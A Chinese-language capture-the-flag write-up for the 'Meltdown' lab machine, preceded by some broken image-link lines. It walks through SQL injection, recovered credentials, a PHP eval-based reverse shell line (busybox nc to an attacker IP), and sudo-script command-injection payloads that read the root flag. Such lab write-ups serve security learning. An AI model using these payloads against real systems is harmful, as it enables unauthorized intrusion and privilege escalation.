









MazeSec-Meltdown
端口扫描
1 | ┌──(kali㉿kali)-[~/HMV/meltdown] |
web 渗透
开放了 80 端口，上 web 页面查看：
看上去是个有音乐特色的页面，可交互的内容不多，有一个“炉心”，还有一个登录界面。
点击那个“炉心”，发现进入到了一个物品介绍页面，从 url 里可以看到，这个页面接受一个 id 参数，这里 id=1。

看到这种 url ，我们就要看看这里是不是存在 SQL注入，加入一个单引号，发现他报了 SQL 的错误，说明存在 SQL注入：

经过测试发现，这里的 SQL 注入没有什么 WAF ，因此直接用 sqlmap 获取到了一个用户名和密码：

用户名密码为 rin:rin123 ，尝试用该用户凭据进行 ssh 登录，但登录不上去。于是，回到刚才的 web 页面的登录页面进行登录，登录成功了。
可以看到登录之后，多了一个管理员页面，在里面可以编辑物品的介绍。
随便输入一些字符之后，返回到查看物品的页面，发现报错了：


可以看到他说 eval() 这个函数报错了，再想到一开始的物品介绍下面写的是 echo "这是一个关于炉心溶解的物品。";，因而猜到后端可能有 eval() 在执行这个物品的介绍字段，因此在这里尝试进行 php 命令执行。
获取立足点
测试发现确实存在 php 命令执行，所以直接把物品介绍改为弹 shell 的 php 代码：
1 | system("busybox nc 192.168.0.105 1234 -e bash"); |
在本地就收到了弹回来的 shell：
1 | ┌──(kali㉿kali)-[~/HMV/meltdown] |
提权
在靶机内进行信息收集，在 /opt 目录下找到了 rin 用户的密码，直接 ssh 登录到 rin 这个用户。
1 | www-data@meltdown:/var/www/html$ cd /opt |
登录到 rin 用户之后，sudo -l 发现可以 sudo 执行 /opt/repeater.sh：
1 | rin@meltdown:~$ sudo -l |
查看 /opt/repeater.sh 的内容：
1 |
|
看上去我们可以输入一个字符串，然后脚本会检测是否包含一些特殊字符、命令以及空格，最后会执行 eval "output=过滤之后的输入内容"。
其中，中间检测空格的部分有些特殊，为了充分理解其含义，我问了一下 Deepseek，他总结说: 要么完全没有空格，要么只能有一个空格，且空格前后都只能是字母数字字符。
例如，我们可以输入 a b ，但是不能输入 a b,，因为第二个输入有一个逗号，所以脚本会拦截并输出 空格使用受限。
这个脚本的关键在于 eval "output=\"$sanitized_input\"" 这个语句，他会先解析 $sanitized_input 这个参数，然后和前面的 eval "ouput= 拼接。
因此，我们可以输入双引号，来和 "ouput= 前面的双引号闭合，从而尝试进行命令注入。
以下写了三种方案来进行命令注入。
方案一
脚本过滤了一些常见的特殊字符，但是没有过滤重定向符号（左右箭头）和括号，因此我们可以用 < 作为输入，> 作为输出，用 more tac 等没有被过滤的命令来读取文件。
payload 如下：
1 | sudo /opt/repeater.sh '"<(more</root/root.txt>/tmp/a)"' |
拿到了 root flag：

方案二
grep 命令会一行一行来查看空格的使用是否符合规矩，而最后我们的换行符会被删掉，因此我们可以输入换行，在每一行都符合空格的使用的情况下，来进行命令的执行，如下：

方案三
既然脚本里空格受限，那我们把要执行的命令放在一个文件里，然后输入这个文件的名称来执行这个文件就好了，如下：

方案四
采用大括号 {}，可以没有空格的执行命令，例如 {cat,/etc/passwd}，用这个方法可以绕过空格，如下：

PS
bash -x 可以查看脚本每一步是怎么执行的，方便调试。